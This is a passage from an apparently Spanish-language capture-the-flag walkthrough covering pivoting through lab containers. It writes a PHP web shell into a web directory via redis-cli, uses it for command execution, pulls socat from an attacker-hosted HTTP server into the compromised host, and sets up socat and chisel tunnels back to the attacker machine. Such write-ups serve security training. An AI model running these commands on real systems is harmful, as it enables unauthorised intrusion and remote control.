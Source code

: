     como vemos que en el JS de la web hay nombres de ficheros raros cojemos uno como por ejemplo el **8924d0659008565c554f8128cd11fda4**

1. Enviamos el fichero php al directorio

    ```bash
    cat cmd.php | redis-cli -h 127.0.0.1 -x set reverse
    redis-cli -h 127.0.0.1 config set dir /var/www/html/8924d0659008565c554f8128cd11fda4/
    redis-cli -h 127.0.0.1 config set dbfilename "cmd.php"
    redis-cli -h 127.0.0.1 save
    ```

1. con firefox vamos a la url `http://localhost/8924d0659008565c554f8128cd11fda4/cmd.php?cmd=whoami`

Aqui vemos que tenemos un RCE activado. Si le ponemos el comando hostname, podemos ver un nuevo segmento que seria el **172.20.0.0/24**.
Como no tenemos connectividad de esta maquina (www) hacia nuestra maquina de atacante, tenemos que passar por la 172.19.0.4 hasta la nuestra.
Por esto usaremos socat

### Ganando Acceso a WWW con puente de coneccion via socat {-}

1. descargamos socat

    ```bash
    wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat
    chmod +x socat
    ```

1. subimos el socat al contenedor nodered

    - en la maquina de atacante creamos un servicio http 

        ```bash
        python -m http.server 80
        ```

    - descargamos el socat con la funccion __curl()

        ```bash
        __curl http://10.10.14.29/socat > socat
        chmod +x socat
        ```

1. con socat configuramos el puente en la maquina nodered

    ```bash
    ./socat TCP-LISTEN:1111,fork TCP:10.10.14.29:2222 &
    ```

1. lanzamos nuevamente el chisel cliente

    ```bash
    ./chisel client 10.10.14.29:1234 R:80:172.19.0.3:80 R:6379:172.19.0.2:6379
    ```
